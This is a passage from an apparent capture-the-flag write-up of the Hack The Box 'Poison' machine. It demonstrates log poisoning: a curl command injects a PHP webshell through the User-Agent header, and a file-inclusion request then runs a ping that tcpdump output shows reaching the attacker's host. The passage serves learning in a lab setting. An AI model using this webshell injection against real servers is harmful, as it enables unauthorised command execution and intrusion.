kali@kali-[~/boxes/htb/poison]$curl -i http://10.10.10.84 -A 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
```

Searching for this in the log file shows it was successfully logged. 



I used the next command to create a php webshell in the log file.

```sh
kali@kali-[~/boxes/htb/poison]$curl -i http://10.10.10.84 -A '<?php system($_GET['cmd']);?>'
```


The log file was huge and hard to read, however I used a ping command and recevived a ping back on my kali.


```sh
http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=ping%20-c%203%2010.10.14.34
```


```sh
kali@kali-[~/boxes/htb/poison]$sudo tcpdump -i tun0 icmp
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:03:08.562924 IP 10.10.10.84 > 10.10.14.34: ICMP echo request, id 19136, seq 0, length 64
13:03:08.562953 IP 10.10.14.34 > 10.10.10.84: ICMP echo reply, id 19136, seq 0, length 64
13:03:09.597154 IP 10.10.10.84 > 10.10.14.34: ICMP echo request, id 19136, seq 1, length 64
13:03:09.597171 IP 10.10.14.34 > 10.10.10.84: ICMP echo reply, id 19136, seq 1, length 64
13:03:10.663163 IP 10.10.10.84 > 10.10.14.34: ICMP echo request, id 19136, seq 2, length 64
13:03:10.663181 IP 10.10.14.34 > 10.10.10.84: ICMP echo reply, id 19136, seq 2, length 64
13:03:10.713845 IP 10.10.10.84 > 10.10.14.34: ICMP echo request, id 20160, seq 0, length 64
13:03:10.713863 IP 10.10.14.34 > 10.10.10.84: ICMP echo reply, id 20160, seq 0, length 64
13:03:11.721351 IP 10.10.10.84 > 10.10.14.34: ICMP echo request, id 20160, seq 1, length 64
13:03:11.721366 IP 10.10.14.34 > 10.10.10.84: ICMP echo reply, id 20160, seq 1, length 64
13:03:12.758919 IP 10.10.10.84 > 10.10.14.34: ICMP echo request, id 20160, seq 2, length 64
13:03:12.758976 IP 10.10.14.34 > 10.10.10.84: ICMP echo reply, id 20160, seq 2, length 64


```

This proves we successfully got command execution via log poisoning. 